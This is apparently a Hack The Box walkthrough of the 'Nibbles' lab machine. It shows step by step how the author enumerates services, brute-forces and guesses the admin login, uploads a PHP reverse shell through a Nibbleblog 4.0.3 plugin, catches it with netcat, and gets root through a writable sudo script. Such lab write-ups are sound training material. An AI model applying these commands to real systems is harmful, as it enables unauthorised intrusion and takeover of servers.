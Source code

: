 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.75

[+] Openning ports: 22,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.75 -p22,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 12:13 +07
Nmap scan report for 10.10.10.75
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

### Apache httpd 2.4.18

Checking source code, there is a directory `/nibbleblog/`.

```
┌──(Hades㉿10.10.14.5)-[0.9:30.3]~
└─$ curl http://10.10.10.75/                                                                                                        
<b>Hello world!</b>
<snip>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

List of hidden in the server after `/nibbleblog/` using gobuster

```
┌──(Hades㉿10.10.14.5)-[1.7:51.3]~
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -q
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/update.php           (Status: 200) [Size: 1622]
/admin.php            (Status: 200) [Size: 1401]
/.htaccess            (Status: 403) [Size: 306] 
/feed.php             (Status: 200) [Size: 300] 
/sitemap.php          (Status: 200) [Size: 401]
```

### Nibbleblog 4.0.3

I go to `http://10.10.10.75/nibbleblog/install.php`, and it shows the `update` link.

![](images/2.png)

Go to `update.php`, I know the server was running Nibbleblog 4.0.3

![](images/3.png)

Find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.7:43.2]~
└─$ searchsploit Nibbleblog 4.0.3 
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Guessable Admin Credential

At the url `http://10.10.10.75/nibbleblog/admin.php`, It is login page for admin.

![](images/4.png)

I try to brute force with hydra but my ip address have been blocked.

```
hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.75 http-post-form '/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password.'
```

![](images/5.png)

Let's try a manual guess with some common credentials and I got the username `admin`, password `nibbles` to login successfully.

![](images/6.png)

### Nibbleblog 4.0.3 Upload

Follow exploit `php/remote/38489.rb` and searching in the internet, I found manual steps [here](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

At [Plugins My image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image), upload file `php-reverse-shell.php`.

![](images/7.png)

Execute file upload and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/payloads/web-shells/php
└─$ curl 10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

At the listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/walkthrough/hackthebox/nibbles
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 47294
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:47:49 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Privilege Escalation

### Sudo access file overwrite

At home nibbler's folder, I saw a personal.zip file, try to unzip it and read more.

```
nibbler@Nibbles:/home/nibbler$ ls -la
<snip>
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr  6 01:12 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

And also, I enum sudo permission execute file `/home/nibbler/personal/stuff/monitor.sh` as root without require password.

```
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Change file `monitor.sh` to spawn bash as root and run it with sudo command.

```
shbbler@Nibbles:/home/nibbler$ echo bash > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```